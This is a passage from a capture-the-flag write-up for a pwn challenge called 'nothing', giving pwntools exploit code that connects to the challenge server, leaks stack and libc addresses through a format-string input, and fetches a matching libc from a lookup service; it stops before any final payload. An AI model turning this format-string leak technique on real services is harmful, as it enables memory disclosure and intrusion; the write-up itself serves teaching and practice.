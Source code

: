 ### Setup

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./nothing')
context.log_level = 'INFO'

if not args.REMOTE:
    context.log_file = 'local.log'
    libc = binary.libc
    p = process(binary.path)
else:
    context.log_file = 'remote.log'
    libc_index = 5
    p = remote('pwn02.chal.ctf.westerns.tokyo', 18247)
```

Boilerplate pwntool, however, `libc_index` is not _boilerplate_.  More on this below.


### Leak

```python
p.sendlineafter('> ','%36$p,%39$p')
_ = p.recvline().strip().split(b',')

stack_ret_addr = int(_[0],16) - 216
log.info('stack_ret_addr: ' + hex(stack_ret_addr))

__libc_start_main_231 = int(_[1],16)
log.info('__libc_start_main_231: ' + hex(__libc_start_main_231))
log.info('__libc_start_main: ' + hex(__libc_start_main_231 - 231))
```

Requesting parameters 36 and 39 provide the necessary bits to compute the location of the return address and libc (if we know the libc version).


### Find and download libc

```python
if not 'libc' in locals():
    try:
        import requests
        r = requests.post('https://libc.rip/api/find', json = {'symbols':{'__libc_start_main':hex(__libc_start_main_231 - 231)[-3:]}})
        libc_url = r.json()[libc_index]['download_url']
        libc_file = libc_url.split('/')[-1:][0]
        if not os.path.exists(libc_file):
            log.info('getting: ' + libc_url)
            r = requests.get(libc_url, allow_redirects=True)
            open(libc_file,'wb').write(r.content)
    except:
        log.critical('get libc yourself!')
        sys.exit(0)
    libc = ELF(libc_file)

libc.address = __libc_start_main_231 - libc.sym.__libc_start_main - 231
log.info('libc.address: ' + hex(libc.address))
```
